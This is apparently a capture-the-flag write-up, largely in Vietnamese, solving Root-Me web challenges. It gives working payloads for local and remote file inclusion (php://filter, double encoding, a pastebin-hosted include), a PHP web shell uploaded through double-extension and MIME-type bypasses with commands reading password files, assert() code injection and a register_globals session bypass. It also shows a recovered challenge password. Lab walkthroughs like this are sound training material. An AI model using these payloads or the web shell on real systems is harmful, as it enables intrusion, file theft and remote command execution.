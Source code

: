 ### Local File Inclusion
![image](https://user-images.githubusercontent.com/77602549/164174516-0f929bb8-5a10-4fdc-8b86-d54a5687dc73.png)


![image](https://user-images.githubusercontent.com/77602549/164175580-fb16a8e5-ccde-49c6-9efc-9dddf4473bd8.png)

Vậy thư mục admin nằm ngay trong thư mục root.
Ta phải lấy được source code của file index.php

Chúng ta thử dần các payload sau:
  
  + ?files=sysadm&f=/admin/index.php cái này khỏi thử, không có chuyện admin nằm trong đây đâu
  + ?files=sysadm&f=../index.php cái này khỏi thử, nếu admin nằm ngoài đây thì sysadm sẽ thành web-serveur/ch16/admin/sysadm/ rồi, nhưng cũng đáng thử, để biết chall có chặn .. không
  + ?files=sysadm&f=../admin/index.php lỗi file_get_contents(): Filename cannot be empty
  + ?files=sysadm&f=../../admin/index.php di chuyển ra thêm một thư mục nữa -BOOM- ta được source code của file index

![image](https://user-images.githubusercontent.com/77602549/164176305-bc555b84-c24b-4c7d-8c1d-e216cb9ed005.png)





## Local File Inclusion - Double encoding

![image](https://user-images.githubusercontent.com/77602549/164176760-d250d227-f597-4e7c-912a-d9c945de213f.png)


We will use php://filter with base64 encoding

php://filter/convert.base64-encode/resource=cv

after double encoding

php%253A%252F%252Ffilter%252Fconvert%252Ebase64%252Dencode%252Fresource%253Dcv




http://challenge01.root-me.org/web-serveur/ch45/index.php?page=php%253A%252F%252Ffilter%252Fconvert%252Ebase64%252Dencode%252Fresource%253Dconf


![image](https://user-images.githubusercontent.com/77602549/164178518-8fb1d70b-6565-4528-8787-7cbd74f7fb66.png)



## Local File Inclusion - Wrappers

![image](https://user-images.githubusercontent.com/77602549/164179748-a96d3d97-6d31-40f9-af6c-74999959a7ec.png)


![image](https://user-images.githubusercontent.com/77602549/164187956-623d7d22-ac08-4ac2-900a-33fab04896fe.png)



<?php $data = file_get_contents(“index.php”); echo $data; ?>


https://vietjack.com/php/ham_scandir_trong_php.jsp



![image](https://user-images.githubusercontent.com/77602549/164188168-fa5d727f-740a-4cab-81c6-33df0d0a3d09.png)



name too long
![image](https://user-images.githubusercontent.com/77602549/164188972-82a3d7f6-414d-42d3-b66a-591f08f132bc.png)

```
<?php 
   $path = getcwd();
   $items = scandir($path);
   
   echo "<p>Content of $path</p>";
   echo '<ul>';
   foreach ($items as $item) {
       echo '<li>' . $item . '</li>';
   }
   echo '</ul>';  
?>

```

![image](https://user-images.githubusercontent.com/77602549/164195162-1aafd712-1969-40f5-9b04-0de766c9ccaf.png)



![image](https://user-images.githubusercontent.com/77602549/164193342-b6c70f3b-fbed-44e0-9f25-295b4e399444.png)


```
<?php
   show_source('flag-mipkBswUppqwXlq9ZydO.php'); 
?>
```
## Remote File Inclusion



ĐIỀU QUAN TRỌNG VỚI DẠNG BÀI REMOTE FILE INCLUSION NÀY , TA PHẢI INCLUDE 1 FILE TỪ WEB SERVER KHÁC !


Dùng 1 server khác để get tham số là câu lệnh <?php echo file_get_contents ('index.php')?>

Mình sẽ đề xuất sử dụng https://pastebin.com/ vì nó khá là tiện 


?lang=https://pastebin.com/raw/LjpyDxwq?



## HTTP - Directory indexing

![image](https://user-images.githubusercontent.com/77602549/164369902-07dcd33e-d61f-4803-ab1a-8bb4d676ee70.png)



![image](https://user-images.githubusercontent.com/77602549/164369994-0717f0f4-9d35-4d32-896d-e20f1ec686ec.png)



![image](https://user-images.githubusercontent.com/77602549/164369921-1623f8fd-d2b4-4ad5-aed4-0ef04884f0c9.png)



## File upload - Double extensions

![image](https://user-images.githubusercontent.com/77602549/164371548-8de896ab-5b5a-417e-88b2-161fa7313293.png)


<?php

$data = system($_GET["cmd"]);
echo $data;

?>

?cmd=ls -la

?cmd=cat ../../../.passwd


## File upload – MIME type

![image](https://user-images.githubusercontent.com/77602549/164523876-fdd1951d-9f97-4e9e-b4d3-604da8d6cda5.png)


Chổ Content-type nó sẽ định nghĩa kiểu dữ liệu mà bạn sẽ upload lên, thay thành image/png nó sẽ hiểu đó là ảnh chứ không phải php file.

?cmd=cat ../../../.passwd





## Directory traversal

![image](https://user-images.githubusercontent.com/77602549/164531455-7057e609-5ac9-4234-ac38-7b845bd97dcf.png)



![image](https://user-images.githubusercontent.com/77602549/164531414-7525dd8f-ad9d-4613-a76b-8889f2b4b565.png)




## PHP - assert()
![image](https://user-images.githubusercontent.com/77602549/164538756-974ad560-7375-403e-927e-553ec78cc2b4.png)


Assert() được dùng giống như else trong điều kiện if vậy, thường được dùng để debug:

$a = 1; 
assert($a === 1, '$a is not 1'); 
assert($a === 2, '$a is not 1');
Sau vài lần thử thì nhận ra đây là dạng code injection. Template của nó:

$i = "includes/" .$_GET['page'];
$i .= ".php";
assert(strpos($i, '..') === False, 'Detect hacking');


![image](https://user-images.githubusercontent.com/77602549/164540257-9693a9cf-a390-4f01-b3c6-8a116e84374e.png)



![image](https://user-images.githubusercontent.com/77602549/164540226-f9cc7e33-d0b1-43c8-820e-dfc33750dc17.png)


## PHP - Filters


Bài này cho thấy impact của PHP streams, cụ thể là filter wrapper, là một trong những dạng LFI, đáng nhẽ phải giải bài này trước thì bài Local File Inclusion – Double encoding này mình đã không phải đi kiếm lời giải. Thử dần các trang dưới, output là dạng base64:

inc=php://filter/convert.base64-encode/resource=accueil.php
inc=php://filter/convert.base64-encode/resource=login.php
inc=php://filter/convert.base64-encode/resource=config.php
inc=php://filter/convert.base64-encode/resource=index.php
inc=php://filter/convert.base64-encode/resource=ch12.php
Với trang login.php, sau khi decode base64 thì ta tìm được trang config.php. Flag nằm trong đây:

$username="admin";
$password="DAPt9D2mky0APAF";



## PHP - register globals

Sau vài lần thử thì với biến _SESSION, ta thấy xuất hiện lỗi

http://challenge01.root-me.org/web-serveur/ch17/?_SESSION=qwerty1234567890
Warning: Illegal string offset 'logged' in /challenge/web-serveur/ch17/index.php on line 11
Vậy ta biết phần tử trong biến _SESSION là logged, ta thử link dưới rồi bấm enter mà không cần nhập password vào

http://challenge01.root-me.org/web-serveur/ch17/?_SESSION.logged=1 # FAIL, PHP ko set như vầy
http://challenge01.root-me.org/web-serveur/ch17/?_SESSION[logged]=1






